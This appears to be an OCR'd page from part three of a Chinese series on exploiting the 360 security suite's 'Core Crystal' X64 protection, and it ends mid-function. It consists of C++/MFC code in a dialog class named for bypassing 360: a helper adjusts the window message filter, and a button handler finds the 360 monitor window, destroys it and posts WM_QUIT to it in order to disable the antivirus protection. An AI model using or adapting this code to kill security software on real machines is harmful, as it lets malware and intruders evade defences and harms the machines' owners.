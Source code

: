 ## 360核晶引擎防护X64漏洞利用（三）

```
BOOL AllowMeesageForWin7(UINT uMessageID, BOOL bAllow)//注册Win7全局消息 
{
	BOOL bResult = FALSE;

	HMODULE hUserMod = NULL;

	hUserMod = LoadLibrary(_T("user32.dll"));

	if (NULL == hUserMod)
	{
		return FALSE;
	}
	typedef BOOL (WINAPI * _ChangeWindowMessageFilter)
	(
			_In_ UINT message,
			_In_ DWORD dwFlag
	);
	_ChangeWindowMessageFilter pChangeWindowMessageFilter;
	do
	{
		_ChangeWindowMessageFilter pChangeWindowMessageFilter = (_ChangeWindowMessageFilter)GetProcAddress(hUserMod, "ChangeWindowMessageFilter");

		if (NULL == pChangeWindowMessageFilter)
		{
			AfxMessageBox(_T("create windowmessage filter failed"));

			break;
		}

		bResult = pChangeWindowMessageFilter(uMessageID, bAllow ? 1 : 2);//MSGFLT_ADD: 1, MSGFLT_REMOVE: 2 
	} while (0);


	if (NULL != hUserMod)
	{
		FreeLibrary(hUserMod);
	}

	return bResult;
}

void CByPass2019K360Dlg::OnBnClickedButton1()
{

// 	if (!AllowMeesageForWin7(WM_QUIT, TRUE))
// 	{
// 		this->MessageBoxA("AllowMeesageForWin7 error!", NULL);
// 	}
	HWND hWnd1 = ::FindWindowA("Q360SafeMonClass", NULL);
	if (hWnd1 != NULL)
	{
		//this->MessageBox("Q360SafeMonClass OK!", NULL);
		::SetForegroundWindow(hWnd1);
		::DestroyWindow(hWnd1);
		::PostMessageA(hWnd1, WM_QUIT, NULL, NULL);

	}
// 	else
```